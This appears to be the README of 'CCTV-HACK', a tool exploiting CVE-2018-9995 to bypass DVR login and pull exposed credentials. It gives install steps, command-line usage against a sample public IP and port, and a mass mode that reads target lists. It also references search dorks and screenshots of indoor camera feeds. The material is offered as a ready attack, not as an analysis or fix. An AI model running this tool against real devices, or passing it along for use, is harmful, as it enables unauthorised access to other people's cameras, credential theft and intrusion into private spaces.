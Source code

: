 <div align=center>
#  [Exploit] DVR LOGIN BYPASS (CCTV-HACK)
<strong>  
CVE:                CVE-2018-9995<br>
CVSS Base Score v3:      7.3 / 10
</strong>
</div>

	
![DVR_wall](screenshot/videowall.jpg) 


# Dork:

![DVR_dorks_2](screenshot/d1.jpg)
![DVR_dorks_3](screenshot/d2.png)

## Possible Banners frontend (web):
![DVR_login_1](screenshot/login1.jpg)
![DVR_login_2](screenshot/login2.jpg)
![DVR_login_3](screenshot/login3.jpg)

## Indoor:
![DVR_indoor_1](screenshot/in.jpg)
![DVR_indoor_2](screenshot/in1.jpg)
![DVR_indoor_3](screenshot/in2.jpg)



# TOOL: "CCTV-HACK"

## Installation Code
```
git clone https://github.com/tausifzaman/cctv-hack
 ```

 ```
cd cctv-hack
 ```
```
pip install -r requirements.txt
 ```

```
python cctv.py

 ```


## Usages 

	usage: python cctv.py
    or,       python cctv.py --host 109.100.130.57 --port 8000
    or,       python cctv.py -m target.txt

	[+] Obtaining Exposed credentials

    options:
      -h, --help            show this help message and exit
      --host HOST           Host
      --port PORT           Port
      -m MASS, --mass MASS  File with host:port or URL list


## Pocs (Output) :
![DVR_poc_4](screenshot/output.jpg)


